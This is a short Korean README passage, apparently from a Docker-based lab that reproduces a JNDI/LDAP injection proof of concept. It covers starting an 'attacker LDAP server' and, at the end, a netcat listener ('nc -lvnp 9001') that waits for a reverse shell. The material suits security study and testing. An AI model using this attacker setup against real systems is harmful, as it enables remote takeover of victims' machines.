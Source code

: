 `entrypoint`에 있는 명령어들은 docker start를 할 때마다 계속 실행됩니다.
이를 감안해 명령어 일부를 충돌이 발생하지 않게끔 조정하였습니다.

또한, 원본 PoC 코드에서는 OracleJDK를 이용합니다.
이 OracleJDK는 배포하는 측면에서 어렵습니다.
따라서, 최대한 버전이 비슷한 OpenJDK를 테스트 후 교체하였습니다.

docker_attacker-ldap-server 폴더의 `docker-compose.yml` 파일을 Host PC (Docker를 돌리는 PC 또는 Virtual Machine)에 저장합니다.
각자의 사정에 맞춰 `docker-compose.yml` 파일 내용에 있는 서버 주소(`10.0.2.15`)를 다른 주소로 수정해도 됩니다.

그리고 다음 명령을 실행하여 공격자의 LDAP 서버를 시작합니다.

```
docker compose up -d
```

docker container 정보를 아래 명령어를 통해 볼 수 있습니다.
```
docker ps -a
```

docker container의 로그 정보를 아래 명령어를 통해 볼 수 있습니다.
```
docker logs <container-id>
```

아래와 같이 로그가 나온다면, 성공한 것입니다.
꼭 `Listening on 0.0.0.0:1389`가 나와야 합니다.
![](picture/6.png)

## 공격자 서버 구축 - listening server

리버스 셸 포트 (--lport) : 9001

아래 명령어를 실행해 리버스 셸을 대기합니다.
nc -lvnp 9001
